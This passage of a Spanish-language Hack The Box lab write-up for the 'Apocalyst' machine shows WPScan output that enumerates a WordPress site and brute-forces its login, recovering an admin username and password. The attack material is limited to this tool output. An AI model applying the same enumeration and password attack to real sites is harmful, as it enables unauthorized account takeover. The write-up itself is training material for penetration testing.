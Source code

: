 ```console
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <==============================================================================================================> (137 / 137) 100.00% Time: 00:00:03

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - falaraki / Transclisiation                                                                                                                                                       
Trying falaraki / total Time: 00:00:19 <=============================================                                                                     > (335 / 821) 40.80%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: falaraki, Password: Transclisiation

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Aug 14 19:13:36 2022
[+] Requests Done: 475
[+] Cached Requests: 38
[+] Data Sent: 147.999 KB
[+] Data Received: 1.241 MB
[+] Memory used: 244.285 MB
[+] Elapsed time: 00:00:27
```
Una vez que ingresamos vemos que el usuario falaraki es un usuario admin

![falarakiAdmin](Images/image08.png)


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>